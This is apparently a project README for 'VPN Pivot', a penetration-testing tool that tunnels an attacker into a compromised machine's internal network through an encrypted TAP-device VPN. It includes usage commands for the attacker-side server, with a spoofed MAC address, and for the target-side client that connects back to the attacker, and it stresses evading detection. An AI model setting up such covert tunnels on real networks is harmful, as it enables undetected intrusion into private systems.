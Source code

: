 VPN Pivot!
===================
Sometime we do external penetration testing and when we compromise the remote target we would love to explore the internal network behind and getting such compromise like owning Active directory, accessing shared files ... etc.
There are many techniques like port forwarding, socks4 ..., but each one has its pros and cons . this is the reason why VPN pivoting techniques is out , it solves all the problems encountered by using both of the techniques mentioned above.
it lets you interact with internal networks that are prevented by firewalls,NATs .. etc

This an implementation of **VPN pivoting** technique in Linux using pure low-level sockets within tap device.
It creates a fully encrypted tunnel using a shared key between the target machine and the attacker.
 
----------


How it works
-------------
VPN Pivot sends and receive a fully encrypter TCP/IP stack over TCP socket,then the peers forward it into the desired device.
The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured . the used IP will never be reachable which makes him harder to track.

>**VPN Server: **
The VPNPivot server must be run in the the attacker machine, it creates a a virtual device (tap)  with the possibility to change MAC (that seems fine for spoofing and Mac switching) , IP address , MTU and also the owner of the interface.
The TAP devices interacts with the targets machine, it sends/receives raw ethernet frame.
Once the attacker get a successfully tunnel connection, the tap device can intercats with the DHCP server of the internal hacked network, receives/send broadcast packets, and also IP addresses reuse.

>**VPN Client: **
The VPN Pivot client must be run in the target machine, it creates two socket files , the first as client for the tunnel and the second for interacting with the device directly.
it works like we are creating a undetectable tap device which makes it harder to detect.
 
---------

Usage
-------------
**Compilation :**

> simo:~/projects/VPNPivot$ make
  [CC] vpnp_server.o
  [CC] crypto.o
  [BIN] vpnp_server
  [CC] vpnp_client.o
  [BIN] vpnp_client
  ---------
**vpnp_server :**
> ./vpnp_server -i pwn0 -I 10.10.10.145/24 -m 1500 -H 0c:0a:DE:AD:BE:EF -K "I0wnY0u*!" -v**
[+] Setup a non-persistent tap : pwn0
[+] Listening on port : 12345

So it creates an a tap device named pwn0 as shown bellow:
> 
simo@pwner:~$ ifconfig pwn0
pwn0      Link encap:Ethernet  HWaddr 0c:0a:de:ad:be:ef  
          inet adr:192.168.200.70  Bcast:192.168.200.255  Masque:255.255.255.0
          adr inet6: fe80::887e:86ff:fe8a:3599/64 Scope:Lien
          UP BROADCAST RUNNING  MTU:1500  Metric:1
          Packets reçus:0 erreurs:0 :0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 lg file transmission:500 
          Octets reçus:0 (0.0 B) Octets transmis:0 (0.0 B)

finally, it waits for the client to be connected 

**vpnp_client :**
> Usage : 
./vpnp_client 10.254.30.53 12345 10.10.10.1 "I0wnY0u*!"

That's it :-) , enjoy your pwning 

TODO
-------------
The main focus for the moment is to port the client to windows, The client is mainly designed to be portable and doesn't require any dependencies, 
Since windows doesn't support data link layer manipulation with WinSock ,thus we should hook some kernel function (NDIS hooks?).

